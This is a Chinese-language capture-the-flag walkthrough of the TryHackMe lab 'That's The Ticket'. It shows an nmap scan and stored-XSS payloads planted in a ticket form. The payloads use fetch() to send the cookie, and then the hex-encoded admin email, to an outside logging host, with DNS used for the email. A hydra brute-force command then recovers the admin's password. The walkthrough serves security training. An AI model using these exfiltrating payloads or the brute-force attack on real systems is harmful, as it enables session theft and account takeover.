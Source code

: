 ```yaml
---
sidebar_position: 139
tags: [Easy, Linux, 钓鱼, XSS]
title: "That's The Ticket"
description: "That's The Ticket"
sidebar_label: "That's The Ticket"
slug: /tryhackme/139
---
```


# That's The Ticket

## 端口扫描

```bash
root@ip-10-10-29-11:~/thatstheticket# nmap -sTCV -p- --min-rate 1000 10.10.82.52

Starting Nmap 7.60 ( https://nmap.org ) at 2023-10-04 08:32 BST
Nmap scan report for thatstheticket.thm (10.10.82.52)
Host is up (0.00041s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 bf:c3:9c:99:2c:c4:e2:d9:20:33:d1:3c:dc:01:48:d2 (RSA)
|   256 08:20:c2:73:c7:c5:d7:a7:ef:02:09:11:fc:85:a8:e2 (ECDSA)
|_  256 1f:51:68:2b:5e:99:57:4c:b7:40:15:05:74:d0:0d:9b (EdDSA)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Ticket Manager > Home
MAC Address: 02:7B:71:0C:32:15 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.14 seconds
```

## 80

访问 80 站点进行目录扫描以及搜索后无果, 我发现可以注册一个账号, 注册一个账号进行登录之后, 我发现其是创建 Ticket , 应该是利用 XSS 获取 Cookie 的操作, 所以我进行简单的搜索后发现产生 XSS 的方式

```bash
</textarea>
</div>
<script>alert('xss')</script>
```

![image-20240709171514234](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-171515.png)

利用题目给出的利用工具我在 10.10.10.100 创建了一个子域来进行监听, 并创建如下票据

```bash
</textarea>
<script>
fetch('http://0a60cac2492597aefd651605b8593157.log.tryhackme.tech/?cookie=' + document.cookie)
  .then(response => response.text())
  .then(data => {
    console.log(data);
  })
</script>
```

但是其发送的请求并没有我们的 Cookie (这里其实是我们的用户) 查看题目后意识到我们可能需要去获取管理员的邮箱

![image-20240709171520018](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-171521.png)

在这里我改进了我们的 XSS 转为获取邮箱, 同时在此有个特殊之处我们的服务端可能做了某些措施导致我们无法通过 HTTP 来获取我们的管理员邮箱, 但是可以通过 DNS 来获取

```bash
</textarea>
<script>
function stringToHex(str) {
  var hexString = '';
  for (var i = 0; i < str.length; i++) {
    var hex = str.charCodeAt(i).toString(16);
    hexString += hex;
  }
  return hexString;
}

fetch('http://' + stringToHex(document.getElementById('email').innerHTML) + '.e3d6772b2acb2799aeeb04350ceb5a68.log.tryhackme.tech')
  .then(response => response.text())
  .then(data => {
    console.log(data);
  })

</script>
```

![image-20240709171526759](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-171528.png)

获取到管理员的账号后我们使用其进行暴力破解

```bash
root@ip-10-10-29-11:~/thatstheticket# hydra -l adminaccount@itsupport.thm  -P `locate rockyou.txt` thatstheticket.thm http-post-form "/login:email=^USER^&password=^PASS^:Invalid email"
......
[80][http-post-form] host: thatstheticket.thm   login: adminaccount@itsupport.thm   password: 123123
......
```

获取到密码之后进行登录即可

![image-20240709171532736](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-171534.png)